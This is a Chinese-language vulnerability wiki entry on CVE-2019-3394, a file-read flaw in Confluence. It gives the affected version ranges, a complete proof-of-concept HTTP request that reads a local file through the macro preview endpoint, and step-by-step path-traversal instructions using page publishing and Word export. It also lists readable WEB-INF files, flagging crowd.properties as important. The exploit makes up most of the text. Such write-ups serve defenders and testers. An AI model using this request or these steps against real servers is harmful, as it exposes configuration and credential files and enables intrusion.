 （CVE-2019-3394）Confluence 文件读取漏洞
========================================

一、漏洞简介
------------

> （CVE-2019-3394）Confluence 文件读取漏洞

二、影响范围
------------

-   6.1.0 \<= version \< 6.6.16

-   6.7.0 \<= version \< 6.13.7

-   6.14.0 \<= version \< 6.15.8

三、复现过程
------------

#### poc

    POST /rest/tinymce/1/macro/preview  HTTP/1.1
    Host: localhost:8090
    Content-Length: 175
    Accept: text/plain, */*; q=0.01 
    Origin: http://localhost:8090
    X-Requested-With: XMLHttpRequest
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
    Content-Type: application/json; charset=UTF-8
    Referer: http://localhost:8090/ 
    Connection: close

    {"contentId":"1","macro":{"name":"widget","params": {"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_templat e":"file:///C:/Windows/win.ini"},"body":""}}

#### 触发条件

1.  一个有效的登录账号

2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId27.png)

2.插入一张网络图片

image

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId28.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId29.png)

5.查看页面源码确认修改成功

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId30.png)

6.导出word，并抓包查看

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId31.png)

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2019-3394)Confluence文件读取漏洞/media/rId32.png)

#### 路径说明

由于 `catalina.jar`中的
`org.apache.catalina.webresources.StandardRoot.class`的
getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在
`/WEB-INF`下

可读取的文件大致如下

    #WEB-INF下
    decorators.xml
    glue-config.xml
    server-config.wsdd
    sitemesh.xml
    urlrewrite.xml
    web.xml
    #/WEB-INF/classes下
    confluence-filtered-frames.properties
    confluence-init.properties
    crowd.properties(较为重要)
    hash-registry.properties
    lgplTemplate.soy
    log4j-diagnostic.properties
    log4j.properties
    logging.properties
    mime.types
    osuser.xml
    seraph-config.xml
    seraph-paths.xml
    velocity_implicit.vm
    velocity.properties
